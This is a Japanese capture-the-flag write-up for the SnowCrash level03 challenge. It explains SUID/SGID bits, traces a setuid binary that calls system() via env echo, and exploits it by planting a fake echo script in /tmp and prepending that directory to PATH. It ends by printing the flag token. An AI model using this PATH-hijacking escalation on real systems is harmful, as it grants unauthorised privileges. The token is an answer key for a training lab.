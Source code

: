
```sh
level03@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
```


-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03

SUID (s in owner権限位置):
プログラム実行時、実行者は一時的にファイル所有者 (この場合 flag03) の権限で実行できます
バイナリファイル実行時のみ有効
SGID (s in group権限位置):
プログラム実行時、実行者は一時的にファイルのグループ (この場合 level03) の権限で実行できます

https://docs.oracle.com/cd/E19455-01/806-2718/secfiles-69/index.html

実ユーザーIDと実効ユーザーIDが異なる場合、実効ユーザーIDがファイルの所有者である場合、ファイルの所有者の権限が使用されます。

実行してみる

```sh
level03@SnowCrash:~$ ./level03
Exploit me
```

level03の実行ファイルがあるので、中身を見る

```sh
level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7e4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                                                                                                   = 2003
geteuid()                                                                                                                                   = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                                                         = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                                                         = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                      = 0
+++ exited (status 0) +++
```

/usr/bin/env echo Exploit me"Exploit me が実行されている


偽のechoを作成して、PATHを変更する

```sh
echo '#!/bin/sh' > /tmp/echo
echo 'getflag' >> /tmp/echo
chmod +x /tmp/echo
```

```sh
export PATH=/tmp:$PATH
```

答えが見える

```sh
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```


## 補足

ギドラだと、以下のようなコードになっている

```
void main(void)
{
  __gid_t __rgid;
  __uid_t __ruid;

  __rgid = getegid();
  __ruid = geteuid();
  setresgid(__rgid,__rgid,__rgid);
  setresuid(__ruid,__ruid,__ruid);
  system("/usr/bin/env echo Exploit me");
  return;
}
```

system()関数を使用するとき、セキュリティ上の理由から、ライブラリやシェルはプロセスの効果的ユーザーIDを実ユーザーIDに戻すことがあります。これは、特権のエスカレーションを防ぐための一般的な安全対策です。

しかし、このプログラムでは、setresuid()とsetresgid()を使用して、実ユーザーIDと効果的ユーザーIDを同じに設定し、特権が維持されるようにしています。これにより、system()を呼び出したときに、特権が失われることを防いでいます。

もしこのコードがなければ、system()呼び出し時に効果的ユーザーIDが実ユーザーID（level03）にリセットされ、getflagを実行する権限がなくなります。
